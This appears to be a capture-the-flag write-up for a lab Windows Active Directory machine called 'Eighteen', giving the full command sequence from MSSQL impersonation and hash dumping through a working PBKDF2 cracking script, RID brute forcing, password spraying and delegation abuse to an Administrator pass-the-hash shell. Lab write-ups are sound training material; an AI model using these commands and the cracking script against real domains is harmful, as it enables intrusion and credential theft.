









# Eighteen

## Overview

Eighteen is a Windows Active Directory machine involving MSSQL impersonation, PBKDF2-SHA256 password cracking, RID brute forcing, WinRM access, and domain privilege escalation through delegation abuse.


### Summary of Attack Chain

| Step | User / Access                      | Technique Used                                                | Result                                                                    |
| :--: | :--------------------------------- | :------------------------------------------------------------ | :------------------------------------------------------------------------ |
|   1  | (Local / Recon)                    | **nmap -A -Pn -sC 10.10.xx.xx**                               | Identified MSSQL service and AD-related ports.                            |
|   2  | kevin (MSSQL login)                | **impacket-mssqlclient**                                      | Logged into MSSQL as `kevin`.                                             |
|   3  | kevin → appdev (MSSQL impersonate) | **enum_impersonate + EXECUTE AS LOGIN = 'appdev'**            | Gained impersonation rights as `appdev`.                                  |
|   4  | appdev (DB access)                 | **Database enumeration (tables, columns, users)**             | Retrieved PBKDF2-SHA256 password hash from `financial_planner.dbo.users`. |
|   5  | (attacker)                         | **PBKDF2-SHA256 cracking (custom Python script)**             | Recovered valid plaintext password.                                       |
|   6  | (attacker)                         | **crackmapexec RID brute-force**                              | Enumerated valid domain usernames.                                        |
|   7  | (attacker)                         | **WinRM password spraying**                                   | Found valid credentials for `adam.scott`.                                 |
|   8  | adam.scott (WinRM access)          | **evil-winrm**                                                | Logged in; retrieved **user.txt**.                                        |
|   9  | adam.scott (priv-esc prep)         | **BadSuccessor.ps1 (delegation abuse)**                       | Assigned delegation from Adam to impersonate Administrator.               |
|  10  | (attacker)                         | **Kerberos time sync**                                        | Synced time to allow valid Kerberos ticket generation.                    |
|  11  | (victim host)                      | **script.ps1 add /impersonate:Administrator**                 | Configured delegation on victim machine.                                  |
|  12  | adam.scott (delegation abuse)      | **getST.py -impersonate '****$' -spn ldap/dc01.eighteen.htb** | Obtained service ticket impersonating Administrator.                      |
|  13  | Administrator (WinRM)              | **evil-winrm -H <NTLM_HASH>**                                 | Logged in as Administrator and retrieved **root.txt**.                    |


## Enumeration

### Port Scan

```
nmap -A -Pn -sC 10.10.xx.xx
# Nmap 7.95 scan initiated Sat Nov 22 22:47:39 2025 as: /usr/lib/nmap/nmap --privileged -A -Pn -sC -o eighteenscan 10.10.11.95
Nmap scan report for 10.10.11.95
Host is up (0.88s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://eighteen.htb/
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-11-23T00:10:42
|_Not valid after:  2055-11-23T00:10:42
|_ssl-date: 2025-11-23T00:22:04+00:00; +1h29m52s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.95:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
| ms-sql-info: 
|   10.10.11.95:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m51s, deviation: 0s, median: 1h29m51s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   459.68 ms 10.10.16.1
2   512.88 ms 10.10.11.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 22 22:52:13 2025 -- 1 IP address (1 host up) scanned in 273.48 seconds

```

The scan showed an exposed MSSQL service along with typical AD ports.

## MSSQL Access

### Connect to MSSQL

```
impacket-mssqlclient kevin:'iNa2we6haRj2gaw!'@10.129.134.40
```

Inside the SQL shell:

```
enum_impersonate
```


```
EXECUTE AS LOGIN = 'appdev';
SELECT IS_SRVROLEMEMBER('sysadmin');
```



```
USE financial_planner;
```


### Enumerate Database

```
SELECT name FROM financial_planner.sys.tables;
```



```
SELECT COLUMN_NAME, DATA_TYPE 
FROM financial_planner.INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = 'users';
```


Extract stored credentials:

```
SELECT username, email, password_hash FROM financial_planner.dbo.users;
```



## Password Cracking (PBKDF2-SHA256)

Save the hash:

```
nano hash.txt
sha256:600000:AMtXXXXXXXXXXXX:0673ad90aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Create the cracking script:

```
cat << 'EOF' > pass.py
#!/usr/bin/env python3
import hashlib
from multiprocessing import Pool, cpu_count

SALT = "AMtzxXXXXXXXXXXXXXX"
ITERATIONS = 600000
TARGET_HASH = "0673ad90a0b4afXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
WORDLIST = "/usr/share/wordlists/rockyou.txt"

def check_password(password: bytes):
    try:
        computed = hashlib.pbkdf2_hmac(
            'sha256',
            password,
            SALT.encode(),
            ITERATIONS
        )
        if computed.hex() == TARGET_HASH:
            return password.decode(errors="ignore")
    except Exception:
        pass
    return None

def main():
    print(f"[+] Using wordlist: {WORDLIST}")
    print("[+] Starting PBKDF2-SHA256 cracking...")

    with open(WORDLIST, "rb") as f:
        passwords = (line.strip() for line in f)

        with Pool(cpu_count()) as pool:
            for result in pool.imap_unordered(
                check_password, passwords, chunksize=500
            ):
                if result:
                    print(f"[+] PASSWORD FOUND: {result}")
                    pool.terminate()
                    return

    print("[-] No match found.")

if __name__ == "__main__":
    main()
EOF

```


Run the script:

```
python3 pass.py
```

Once the password is recovered, continue with AD enumeration.



## User Enumeration and WinRM Access

### RID Brute Force

```
nxc mssql 10.10.11.95 -u kevin -p 'iNa2we6haRj2gaw!' --rid-brute --local-auth
```



Create user list:

```
cat << 'EOF' > user.txt
kevin
mssqlsvc
HR
IT
Finance
jamie.dunn
jane.smith
alice.jones
adam.scott
bob.brown
carol.white
dave.green
EOF
```

Password spraying:

```
crackmapexec winrm 10.10.11.95 -u user.txt -p 'ilXXXXXxX'
```


A valid login for `adam.scott` is identified.

### WinRM Session

```
evil-winrm -u adam.scott -p 'ilXXXXXxX' -i 10.10.11.95
```

Retrieve user flag:

```
cd ..\Desktop
type user.txt
```




# Privilege Escalation to Administrator

## BadSuccessor Delegation Exploit

Upload the BadSuccessor script and run:

```
./BadSuccessor.ps1 -mode exploit -Pat "OU=Staff,DC=eighteen,DC=htb" -Name "****" -DelegateAdmin "adam.scott" -DelegateTarget "Administrator" -domain "eighteen.htb"
```



## Time Synchronization (Kerberos Requirement)

```
sudo timedatectl set-time "$(date -d "$(curl -s -I http://10.10.11.95 | grep -i '^Date:' | cut -d' ' -f2-)" '+%Y-%m-%d %H:%M:%S')"
```

## Configure Delegation on Victim Host

Run this on the victim machine:

```
.\script.ps1 add /impersonate:Administrator /path:"ou=Staff,DC=eighteen,dc=htb" /account:adam.scott /name:******
```

## Request a Kerberos Service Ticket

```
python3 ~/.local/bin/getST.py eighteen.htb/adam.scott:ilXXXXXxX -impersonate "****$" -dc-ip 10.10.11.95 -spn ldap/dc01.eighteen.htb
```

## Administrator Shell

```
evil-winrm -u administrator -H <NTLM_HASH> -i 10.10.11.95
```


# Root Flag

```
type C:\Users\Administrator\Desktop\root.txt
```


